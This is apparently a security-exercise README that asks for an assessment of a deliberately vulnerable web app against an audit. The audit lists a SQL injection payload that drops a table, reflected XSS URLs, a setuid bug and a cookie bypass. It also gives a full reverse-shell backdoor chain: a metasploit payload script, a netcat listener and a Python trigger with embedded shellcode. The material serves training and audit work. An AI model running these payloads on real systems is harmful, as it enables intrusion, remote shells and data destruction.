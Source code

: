 # Software Security Audit

## Objective
Someone online has done a software security audit of the source we based out web app on.  In short, they found some major issues.  The report was pulled from a Wordpress blog to out company wiki and is shown below.  Go over the vulnerabilities in the audit and write a detailed report about whether or not your web app is vulnerable to the issues mentioned.  Include details about any mitigations that were taken to prevent the issues mentioned in the audit.  If our web app is vulnerable include details for how could mitigate the attack and a work estimate (guestimate of hours, days, or weeks) of how long it would take to fix the issue(s).

## Web App Vulnerabilities and Exploits

### SQL Injection on Forms
Drop Users table by entering statement below in the "username" field of the login form.  SQL injection appears likely on other forms as well.

`test'; DROP TABLE Users;#`

Note other SQL injections are possible aside from the example above.

### Reflected XSS

The timesheet page takes unsanitized input from the query parameter and embeds it in a hidden html input element, which could result in reflected XSS attacks.

    http://localhost/webapp/timesheet?query=01-02-2014"><script>alert(42);</script>
    
    http://localhost/webapp/timesheet?query=01-02-2014%22%3E%3Cscript%3Ealert%2842%29;%3C/script%3E

### Plaintext Database Password Entries
The MySQL database contains plaintext passwords and other sensitive information.

### Database Dump
Using the libunwind library is used to recover from crashes and dumps the contents of the database on a crash.  Additionally the log_status "feature" (or malware?) causes a crash on average 1/1000 page requests.

    if ((rand() % 1000) == 0) {
        log_stats(stderr, DISPATCH, LOG_LEVEL_DEFAULT);
    }

### Privilige Escalation
The following lines are an accidental or sneaky attempt to make the application run as root.  The if condition actually sets the uid instead of checking it.  A valid check would utilize "==" not "=".
        
	int uid = (int) geteuid();
	if(uid = 0){
		// never run webapp as root, its a security risk
		uid = 1;
	}
	// set uid to non-root user
	setuid(uid);
	seteuid(uid);

### Known Session Identifiers
Cookies utilize poor session management.  Authorization could be bypassed by setting the Cookie "Authorized" field to "yes".  Additionally session names are just the names of user accounts and can be easily guessed by attackers, which could result in privilege escalation attacks.

### Hidden Backdoor
If a POST request is made with the user agent "asn_roodkcab" ("nsa_backdoor" spelled backwards) the string value of the "data" parameter is decoded as ASCII hex to binary and run in executable memory.  This was tested using metasploit to generate a reverse shell payload and sent with a python script to activate remotely.  Sample scripts below.  A demo video of the attack is available [here](https://www.dropbox.com/s/c5z5udh3y384uyu/NCDC2014_Backdoor.mp4).

Generate your shellcode payload.  Sample script to generate payload with metasploit on Kali shown below.  Depending on target machine OS and architecture some changes may need to be made.  This was tested on a target machine running Ubuntu 12.04 LTS 64 bit.

	#!/bin/bash
	clear
	echo -e "Enter attacker machine IP:  \c"
	read IP
	echo -e "Enter port: \c"
	read port
	msfpayload linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$port R | msfencode -b "\x00\x0a\x0b\x0c\x0d" -t c -e x64/xor >> payload
	echo "Finished"
	ls -la payload

On attacking machine setup the reverse shell listener with netcat (set port to the port you want to listen on, example here is port 447):

`run nc -nvvlp 447`

Edit script with the proper IP address or URL of the victim machine and the Hex encode payload you generated in the previous step (note you will need to do some Find/Replace to get it formatted correctly).  Then on the attacking machine run:

	#!/usr/bin/python
	import urllib
	import urllib2
	
	# replace with target machine IP or URL
	url = 'http://192.168.1.154/webapp'
	
	# replace with your target specific shell code
	# note shellcode should be HEX encode without seperating charcters
	values = {'data' : '4831C94881E9F6FFFFFF488D05EFFFFFFF48BBF0C671726F32CBE248315827482DF8FFFFFFE2F49AEF29EB05309488F1987E7727A5835BF2C670CDAF9ACAD5A18EF89405229188DA9E7E77053195AA0F081B53373DCE9706AC4A2AF67A70CD92AF1F5D1C5ACBB1B84F9620387A4204FFC371726F32CBE2'}
	
	headers = { 'User-Agent' : 'asn_roodkcab' }
	
	data = urllib.urlencode(values)
	req = urllib2.Request(url, data, headers)
	response = urllib2.urlopen(req)
	page = response.read()
	
	print page
	
# Buffer Overflows and Memory Leaks
This app makes heavy use of [insecure functions](http://natashenka.ca/wp-content/uploads/2014/01/truebugswait8x11.pdf) that are susceptible to potential buffer overflows from user controlled inputs.  The exploitability of these issues was not explored, but static analysis tools can help to uncover locations of potential issues.

[Coverity with Github integration](https://scan.coverity.com/projects/1311) discovers buffer overflows in the dispatch error message creation code.

    char err[1024] = "No match for ";
    strcat(err, method_str);
    strcat(err, " \"");
    strcat(err, path_info);
    strcat(err, "\"");
    strcat(err, agt);
    error_handler(err);
    
Memory leaks are present all over the application and could be leverage to perform DOS attacks against the application.
